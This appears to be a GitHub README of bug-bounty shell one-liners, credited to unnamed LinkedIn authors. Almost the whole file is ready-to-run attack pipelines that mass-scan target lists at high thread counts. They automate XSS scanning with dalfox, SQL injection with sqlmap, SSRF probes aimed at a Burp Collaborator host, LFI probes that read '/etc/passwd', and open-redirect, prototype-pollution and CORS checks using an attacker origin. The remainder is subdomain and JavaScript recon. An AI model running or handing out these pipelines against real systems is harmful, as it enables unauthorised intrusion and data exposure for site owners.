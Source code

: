 # Bug Bounty One-Liners I found on LinkedIn 
## I am not the original owner of the scripts, credits to the original



### 𝐗𝐒𝐒 ⪼

cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"


### 𝐒𝐐𝐋𝐢 ⪼

httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'


### 𝐒𝐒𝐑𝐅 ⪼

findomain -t http://target.com -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace 𝘩𝘵𝘵𝘱://𝘠𝘖𝘜𝘙.𝘣𝘶𝘳𝘱𝘤𝘰𝘭𝘭𝘢𝘣𝘰𝘳𝘢𝘵𝘰𝘳.𝘯𝘦𝘵


### 𝐋𝐅𝐈 ⪼

gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'


### 𝐎𝐏𝐄𝐍 𝐑𝐄𝐃𝐈𝐑𝐄𝐂𝐓 ⪼

gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'


### 𝐏𝐑𝐎𝐓𝐎𝐓𝐘𝐏𝐄 𝐏𝐎𝐋𝐋𝐔𝐓𝐈𝐎𝐍 ⪼

subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"


 ### 𝐂𝐎𝐑𝐒 ⪼

gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done


 ### 𝐄𝐱𝐭𝐫𝐚𝐜𝐭 .𝐣𝐬 ⪼

echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew


 ### 𝐄𝐱𝐭𝐫𝐚𝐜𝐭 𝐔𝐑𝐋𝐬 𝐟𝐫𝐨𝐦 𝐜𝐨𝐦𝐦𝐞𝐧𝐭 ⪼

cat targets.txt | html-tool comments | grep -oE '\b(https?|http)://[-A-Za-z0-9+&@#/%?=~_|!:,.;]*[-A-Za-z0-9+&@#/%=~_|]'


### 𝐃𝐮𝐦𝐩 𝐈𝐧-𝐬𝐜𝐨𝐩𝐞 𝐀𝐬𝐬𝐞𝐭𝐬 𝐟𝐫𝐨𝐦 𝐇𝐚𝐜𝐤𝐞𝐫𝐎𝐧𝐞 ⪼

curl -sL 𝘩𝘵𝘵𝘱𝘴://𝘨𝘪𝘵𝘩𝘶𝘣.𝘤𝘰𝘮/𝘢𝘳𝘬𝘢𝘥𝘪𝘺𝘵/𝘣𝘰𝘶𝘯𝘵𝘺-𝘵𝘢𝘳𝘨𝘦𝘵𝘴-𝘥𝘢𝘵𝘢/𝘣𝘭𝘰𝘣/𝘮𝘢𝘴𝘵𝘦𝘳/𝘥𝘢𝘵𝘢/𝘩𝘢𝘤𝘬𝘦𝘳𝘰𝘯𝘦_𝘥𝘢𝘵𝘢.𝘫𝘴𝘰𝘯?𝘳𝘢𝘸=𝘵𝘳𝘶𝘦 | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]


### 𝐅𝐢𝐧𝐝 𝐥𝐢𝐯𝐞 𝐡𝐨𝐬𝐭/𝐝𝐨𝐦𝐚𝐢𝐧/𝐚𝐬𝐬𝐞𝐭𝐬 ⪼

subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u


### 𝐒𝐜𝐫𝐞𝐞𝐧𝐬𝐡𝐨𝐭 ⪼

assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @'

###
